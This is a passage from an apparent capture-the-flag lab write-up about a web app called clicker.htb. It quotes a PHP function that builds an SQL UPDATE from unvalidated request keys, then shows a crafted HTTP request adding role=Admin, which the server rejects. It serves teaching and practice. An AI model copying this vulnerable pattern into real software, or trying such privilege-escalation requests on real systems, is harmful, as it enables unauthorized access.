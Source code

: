 However, one function was building a query with unsafe user data.

```php
function save_profile($player, $args) {
	global $pdo;
  	$params = ["player"=>$player];
	$setStr = "";
  	foreach ($args as $key => $value) {
    		$setStr .= $key . "=" . $pdo->quote($value) . ",";
	}
  	$setStr = rtrim($setStr, ",");
  	$stmt = $pdo->prepare("UPDATE players SET $setStr WHERE username = :player");
  	$stmt -> execute($params);
}
```

The `save_profile` function was used when saving the results of a game.

It built a query like this one to update the profile.

```sql
UPDATE players SET click='2',level='3' WHERE username = 'eric'
```

It did not validate what the keys were. From other functions in the code, I knew there was a `role` column that I could set to 'Admin'. I tried using it to set my user to Admin.

```http
GET /save_game.php?clicks=0&level=0&role=Admin HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=qreneo6dl74qicu33bq4jv1o5l
Upgrade-Insecure-Requests: 1
```

It got rejected.

```http
HTTP/1.1 302 Found
Date: Sun, 12 Nov 2023 20:34:40 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /index.php?err=Malicious activity detected!
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

I looked at the code that called this function. There was some validation around the column names.
